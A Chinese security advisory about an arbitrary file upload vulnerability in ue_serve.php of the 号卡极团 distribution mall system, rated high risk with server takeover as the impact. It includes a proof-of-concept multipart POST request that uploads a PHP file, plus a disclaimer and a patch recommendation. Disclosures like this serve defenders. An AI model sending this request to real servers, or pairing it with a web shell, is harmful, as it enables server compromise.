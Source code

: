 #  漏洞预警 | 号卡极团分销管理系统任意文件上传漏洞   
浅安  浅安安全   2024-07-13 08:03  
  
**0x00 漏洞编号**  
- # 暂无  
  
**0x01 危险等级**  
- 高危  
  
**0x02 漏洞概述**  
  
号卡极团分销商城管理系统，同步对接多平台，同步订单信息，支持敢探号一键上架。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/7stTqD182SVkkIvSyyhUDrPBzDicFDEmrjJGcJ4LOvzZCibvticbq2mWTPz9cv5MjJz3Sdcq3gT9EplC093QmK9sg/640?wx_fmt=png&from=appmsg "")  
  
**0x03 漏洞详情**  
  
**漏洞类型：**  
文件上传  
  
**影响：**  
接管服务器****  
  
**简述：**  
号卡极团管理系统的ue_serve.php存在文件上传漏洞，攻击者可利用此漏洞上传木马文件获取服务器权限。  
###   
  
**0x04 影响版本**  
- 号卡极团分销商城管理系统  
  
**0x05****POC**  
```
POST /admin/controller/ue_serve.php?action=image&encode=utf-8 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: multipart/form-data; boundary=----xxxxxxxx

------xxxxxxxx
Content-Disposition: form-data; name="name"

1.php
------xxxxxxxx
Content-Disposition: form-data; name="upfile"; filename="1.php"
Content-Type: image/jpeg

test
------xxxxxxxx--
```  
  
  
**仅供安全研究与学习之用，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布****者**  
**不承担任何法律及连带责任。**  
  
**0x06****修复建议**  
  
**目前官方已发布漏洞修复版本，建议用户升级到安全版本****：**  
  
https://haokajt.com/  
  
  
  
